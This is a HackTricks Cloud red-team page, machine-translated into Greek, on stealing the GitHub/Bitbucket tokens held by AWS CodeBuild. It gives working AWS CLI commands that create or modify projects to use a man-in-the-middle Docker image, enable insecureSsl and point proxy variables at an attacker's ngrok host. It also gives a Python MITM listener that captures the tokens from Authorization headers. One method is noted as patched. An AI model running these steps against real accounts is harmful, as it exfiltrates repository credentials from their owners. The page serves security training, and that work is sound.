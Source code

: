 # AWS Codebuild - Token Leakage

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Ανάκτηση Ρυθμίσεων Github/Bitbucket

Πρώτα, ελέγξτε αν υπάρχουν οποιαδήποτε διαπιστευτήρια πηγής που είναι ρυθμισμένα και θα μπορούσατε να διαρρεύσετε:
```bash
aws codebuild list-source-credentials
```
### Via Docker Image

Αν διαπιστώσετε ότι η αυθεντικοποίηση για παράδειγμα στο Github είναι ρυθμισμένη στον λογαριασμό, μπορείτε να **exfiltrate** αυτήν την **access** (**GH token ή OAuth token**) κάνοντάς το Codebuild να **χρησιμοποιήσει μια συγκεκριμένη εικόνα docker** για να εκτελέσει την κατασκευή του έργου.

Για αυτόν τον σκοπό μπορείτε να **δημιουργήσετε ένα νέο έργο Codebuild** ή να αλλάξετε το **περιβάλλον** ενός υπάρχοντος για να ρυθμίσετε την **εικόνα Docker**.

Η εικόνα Docker που μπορείτε να χρησιμοποιήσετε είναι [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm). Αυτή είναι μια πολύ βασική εικόνα Docker που θα ρυθμίσει τις **env μεταβλητές `https_proxy`**, **`http_proxy`** και **`SSL_CERT_FILE`**. Αυτό θα σας επιτρέψει να παγιδεύσετε το μεγαλύτερο μέρος της κίνησης του host που υποδεικνύεται στο **`https_proxy`** και **`http_proxy`** και να εμπιστευτείτε το SSL CERT που υποδεικνύεται στο **`SSL_CERT_FILE`**.

1. **Create & Upload your own Docker MitM image**
* Ακολουθήστε τις οδηγίες του repo για να ρυθμίσετε τη διεύθυνση IP του proxy σας και να ρυθμίσετε το SSL cert και **build the docker image**.
* **DO NOT SET `http_proxy`** για να μην παγιδεύσετε αιτήματα προς το metadata endpoint.
* Μπορείτε να χρησιμοποιήσετε **`ngrok`** όπως `ngrok tcp 4444` για να ρυθμίσετε το proxy στον host σας.
* Μόλις έχετε κατασκευάσει την εικόνα Docker, **upload it to a public repo** (Dockerhub, ECR...)
2. **Set the environment**
* Δημιουργήστε ένα **νέο έργο Codebuild** ή **τροποποιήστε** το περιβάλλον ενός υπάρχοντος.
* Ρυθμίστε το έργο να χρησιμοποιεί την **προηγουμένως παραγόμενη εικόνα Docker**.

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **Set the MitM proxy in your host**

* Όπως υποδεικνύεται στο **Github repo** μπορείτε να χρησιμοποιήσετε κάτι σαν:
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
Η **έκδοση mitmproxy που χρησιμοποιήθηκε ήταν 9.0.1**, αναφέρθηκε ότι με την έκδοση 10 αυτό μπορεί να μην λειτουργήσει.
{% endhint %}

4. **Εκτέλεση της κατασκευής & καταγραφή των διαπιστευτηρίων**

*   Μπορείτε να δείτε το token στην κεφαλίδα **Authorization**:

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

Αυτό μπορεί επίσης να γίνει από το aws cli με κάτι σαν

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### Via insecureSSL

**Codebuild** έργα έχουν μια ρύθμιση που ονομάζεται **`insecureSsl`** που είναι κρυμμένη στο διαδίκτυο και μπορείτε να την αλλάξετε μόνο μέσω του API.\
Ενεργοποιώντας αυτό, επιτρέπει στο Codebuild να συνδεθεί με το αποθετήριο **χωρίς να ελέγχει το πιστοποιητικό** που προσφέρεται από την πλατφόρμα.

* Πρώτα πρέπει να καταγράψετε την τρέχουσα ρύθμιση με κάτι σαν:
```bash
aws codebuild batch-get-projects --name <proj-name>
```
* Στη συνέχεια, με τις συγκεντρωμένες πληροφορίες μπορείτε να ενημερώσετε τις ρυθμίσεις του έργου **`insecureSsl`** σε **`True`**. Ακολουθεί ένα παράδειγμα της ενημέρωσής μου για ένα έργο, παρατηρήστε το **`insecureSsl=True`** στο τέλος (αυτό είναι το μόνο που χρειάζεται να αλλάξετε από τη συγκεντρωμένη διαμόρφωση).
* Επιπλέον, προσθέστε επίσης τις μεταβλητές περιβάλλοντος **http\_proxy** και **https\_proxy** που δείχνουν στο tcp ngrok σας όπως: 

{% code overflow="wrap" %}
```bash
aws codebuild update-project --name <proj-name> \
--source '{
"type": "GITHUB",
"location": "https://github.com/carlospolop/404checker",
"gitCloneDepth": 1,
"gitSubmodulesConfig": {
"fetchSubmodules": false
},
"buildspec": "version: 0.2\n\nphases:\n  build:\n    commands:\n       - echo \"sad\"\n",
"auth": {
"type": "CODECONNECTIONS",
"resource": "arn:aws:codeconnections:eu-west-1:947247140022:connection/46cf78ac-7f60-4d7d-bf86-5011cfd3f4be"
},
"reportBuildStatus": false,
"insecureSsl": true
}' \
--environment '{
"type": "LINUX_CONTAINER",
"image": "aws/codebuild/standard:5.0",
"computeType": "BUILD_GENERAL1_SMALL",
"environmentVariables": [
{
"name": "http_proxy",
"value": "http://2.tcp.eu.ngrok.io:15027"
},
{
"name": "https_proxy",
"value": "https://2.tcp.eu.ngrok.io:15027"
}
]
}'
```
{% endcode %}

* Στη συνέχεια, εκτελέστε το βασικό παράδειγμα από [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) στην θύρα που υποδεικνύεται από τις μεταβλητές proxy (http\_proxy και https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Τέλος, κάντε κλικ στο **Build the project**, τα **credentials** θα σταλούν σε **καθαρό κείμενο** (base64) στην θύρα mitm:

<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

### ~~Μέσω πρωτοκόλλου HTTP~~

{% hint style="success" %}
**Αυτή η ευπάθεια διορθώθηκε από την AWS κάποια στιγμή την εβδομάδα της 20ης Φεβρουαρίου 2023 (νομίζω την Παρασκευή). Έτσι, ένας επιτιθέμενος δεν μπορεί να την εκμεταλλευτεί πια :)**
{% endhint %}

Ένας επιτιθέμενος με **υψηλά δικαιώματα σε έναν CodeBuild θα μπορούσε να διαρρεύσει το token Github/Bitbucket** που έχει ρυθμιστεί ή αν τα δικαιώματα έχουν ρυθμιστεί μέσω OAuth, το ** προσωρινό OAuth token που χρησιμοποιείται για την πρόσβαση στον κώδικα**.

* Ένας επιτιθέμενος θα μπορούσε να προσθέσει τις μεταβλητές περιβάλλοντος **http\_proxy** και **https\_proxy** στο έργο CodeBuild που να δείχνουν στη μηχανή του (για παράδειγμα `http://5.tcp.eu.ngrok.io:14972`).

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* Στη συνέχεια, αλλάξτε τη διεύθυνση URL του αποθετηρίου github για να χρησιμοποιεί HTTP αντί για HTTPS, για παράδειγμα: `http://github.com/carlospolop-forks/TestActions`
* Στη συνέχεια, εκτελέστε το βασικό παράδειγμα από [https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm) στην θύρα που υποδεικνύεται από τις μεταβλητές proxy (http\_proxy και https\_proxy)
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* Τέλος, κάντε κλικ στο **Build the project**, τα **credentials** θα σταλούν σε **καθαρό κείμενο** (base64) στην θύρα mitm:

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
Τώρα ένας επιτιθέμενος θα μπορεί να χρησιμοποιήσει το token από τον υπολογιστή του, να καταγράψει όλα τα δικαιώματα που έχει και να (κατα)χρησιμοποιήσει πιο εύκολα από το να χρησιμοποιήσει απευθείας την υπηρεσία CodeBuild.
{% endhint %}

{% hint style="success" %}
Μάθετε & εξασκηθείτε στο AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Μάθετε & εξασκηθείτε στο GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Δείτε τα [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Εγγραφείτε στην** 💬 [**ομάδα Discord**](https://discord.gg/hRep4RUj7f) ή στην [**ομάδα telegram**](https://t.me/peass) ή **ακολουθήστε** μας στο **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Μοιραστείτε hacking tricks υποβάλλοντας PRs στα** [**HackTricks**](https://github.com/carlospolop/hacktricks) και [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
